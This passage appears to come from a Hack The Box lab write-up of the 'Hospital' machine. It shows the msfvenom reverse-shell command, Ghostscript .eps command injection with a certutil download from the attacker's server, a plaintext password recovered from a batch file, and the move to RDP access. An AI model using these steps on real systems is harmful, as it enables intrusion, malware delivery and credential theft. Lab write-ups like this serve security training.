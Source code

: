 ![hospital6](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/9ddaabae-2eff-4ff5-9cab-c8af1fc32ca4)

Knowing this, we prepare a phising attack for which we need to look for ghostscript vulnerabilities. Investigation leads to this exploit https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection, which allows injection of commands in `.eps` files.<br>
Next step is then to generate a `msfevenom` payload for windows.
```markdown
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.xxx.xxx lport=1919 -f exe -a x64 --platform windows -o shell.exe
```
Now, to succeed in the phising attack, what seems to work is to divide the process in 2 steps.<br>
First, inject a payload  in a `project.eps` file which will download the `shell.exe`.
```markwdown
> python3 ./exploit.py -g -p 'certutil -urlcache -split -f "http://10.10.xxx.xxx/shell.exe" shell.exe' -x eps
```
A file `malicious.eps` is generated. Rename it to `project.eps`
```markdown
> mv malicious.eps project.eps
```
Start a python HTTP server and reply the email attaching the `project.eps` file.

![hospital7](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/caeb638c-f37c-4f1d-bd6f-8e637d9976e5)

Shortly after, a request on the python server is registered to download the `shell.exe` file.<br>
Next step is to execute the shell in the server. For this we will repeat the procedure but the command to be injected in the `.eps` file will just execute the shell previously downloaded by the host.<br>
```markwdown
> python3 ./exploit.py -g -p 'shell.exe' -x eps
```
A file `malicious.eps` is generated. Rename it to `project.eps`
```markdown
> mv malicious.eps project.eps
```
Start a listener on port 1919 and reply the email again. Shortly after, a reverse shell is received for user `drbrown`.<br>
In the documents folder of user `drbrown` we find a file called `ghostscript.bat` which we inspect to get the user's password.
```markdwon
> type ghostscript.bat 
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
exit
```
We use this credential to login in the remote desktop service.

![hospital8](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/d8056ee1-b350-4138-a516-2c6c8d1ed6a7)

And finally we are able to get the `user.txt` flag.
### PHASE 3. System
Enumerate the system info.
```markdwon
> systeminfo

Host Name:                 DC
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
```